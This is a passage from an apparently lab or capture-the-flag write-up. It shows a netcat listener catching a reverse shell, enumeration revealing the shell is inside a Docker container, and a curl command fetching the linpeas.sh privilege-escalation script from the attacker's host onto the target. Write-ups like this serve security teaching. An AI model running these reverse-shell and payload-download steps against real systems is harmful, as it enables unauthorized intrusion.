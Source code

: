 - Caught a reverse shell
```console
$ nc -lvnp 8080
listening on [any] 8080 ...
connect to [10.8.0.150] from (UNKNOWN) [10.10.251.106] 60736
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
daemon@4a70924bafa0:/bin$
```

## Docker 
- While looking at root folder found that there is a `.dockerenv` file present, which indicates we are in a docker container.
```console
daemon@4a70924bafa0:/$ ls -la
total 76
drwxr-xr-x   1 root root 4096 Feb 23  2022 .
drwxr-xr-x   1 root root 4096 Feb 23  2022 ..
-rwxr-xr-x   1 root root    0 Feb 23  2022 .dockerenv «------Docker folder
drwxr-xr-x   1 root root 4096 Oct  8  2021 bin
drwxr-xr-x   2 root root 4096 Jun 13  2021 boot
drwxr-xr-x   5 root root  340 Oct 21 13:49 dev
drwxr-xr-x   1 root root 4096 Feb 23  2022 etc
drwxr-xr-x   2 root root 4096 Jun 13  2021 home
drwxr-xr-x   1 root root 4096 Oct  8  2021 lib
drwxr-xr-x   2 root root 4096 Sep 27  2021 lib64
drwxr-xr-x   2 root root 4096 Sep 27  2021 media
drwxr-xr-x   2 root root 4096 Sep 27  2021 mnt
drwxr-xr-x   2 root root 4096 Sep 27  2021 opt
dr-xr-xr-x 170 root root    0 Oct 21 13:49 proc
drwx------   1 root root 4096 Oct  8  2021 root
drwxr-xr-x   3 root root 4096 Sep 27  2021 run
drwxr-xr-x   1 root root 4096 Oct  8  2021 sbin
drwxr-xr-x   2 root root 4096 Sep 27  2021 srv
dr-xr-xr-x  13 root root    0 Oct 21 13:49 sys
drwxrwxrwt   1 root root 4096 Feb 23  2022 tmp
drwxr-xr-x   1 root root 4096 Sep 27  2021 usr
drwxr-xr-x   1 root root 4096 Sep 27  2021 var
```
- On running `whoami` we the output is `daemon` which confirms that we are in a docker.
```console
daemon@4a70924bafa0:/$ whoami
daemon
```
- The IP address of the machine is also in the format `172.17.x.x`.
```console
daemon@4a70924bafa0:/$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255 «---------IP 
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 762  bytes 57540 (56.1 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 538  bytes 320428 (312.9 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
- So loaded a `linpeas.sh` file on the system and started the scan. <br />
```console
daemon@4a70924bafa0:/tmp$ curl http://10.8.0.150/linpeas.sh -o linpeas.sh
```